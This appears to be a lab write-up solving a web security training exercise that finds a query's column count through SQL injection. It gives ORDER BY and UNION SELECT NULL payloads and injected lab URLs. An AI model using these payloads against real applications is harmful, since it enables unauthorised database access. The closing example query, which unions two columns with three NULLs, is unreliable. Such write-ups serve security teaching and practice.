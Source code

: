 # Lab: SQL injection UNION attack, determining the number of columns returned by the query
This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. The first step of such an attack is to determine the number of columns that are being returned by the query. You will then use this technique in subsequent labs to construct the full attack.

To solve the lab, determine the number of columns returned by the query by performing a SQL injection UNION attack that returns an additional row containing null values.

## UNION attack
For a UNION query to work, two key requirements must be met:
- **The individual queries must return the same number of columns.**
- **The data types in each column must be compatible between the individual queries.**

To carry out a SQL injection UNION attack, you need to ensure that your attack meets these two requirements. This generally involves figuring out:
- How many columns are being returned from the original query?
- Which columns returned from the original query are of a suitable data type to hold the results from the injected query?

## Solution
According to the description we have to determine the number of the columns of the query. For this we have to approaches. First, using `ORDER BY`:
```sql
' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--
etc.
```
This gives an error if the index of the column (1, 2, 3, ...) is out of bound.

The second one is to use `UNION SELECT NULL`:
```sql
' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL--
etc.
```
This joins the the queried table with a null column, which is possible since the NULL data type is compatible to every commonly used data type (MySQL). It throws an error if we have not the same amount of null columns as columns of the queried table.

The challenge description tells us to use the `NULL` approach. So we extend the URL as follows:
```
https://0a9700d9042e67f88084f38800ed00d2.web-security-academy.net/filter?category=Accessories%27+union+select+null+--+
```
Gives back an 'Internal Server Error'.

```
https://0a9700d9042e67f88084f38800ed00d2.web-security-academy.net/filter?category=Accessories%27+union+select+null,null+--+
```
Answers aswell with an 'Internal Server Error'.

```
https://0a9700d9042e67f88084f38800ed00d2.web-security-academy.net/filter?category=Accessories%27+union+select+null,null,null+--+
```
This will finally give a valid output in form of showing entries. So the amount of columns is three. With this information the lab is solved. The associated SQL query looks probably like this
```sql
SELECT name, description FROM products WHERE category = 'Accessories' UNION SELECT NULL,NULL,NULL -- 
```

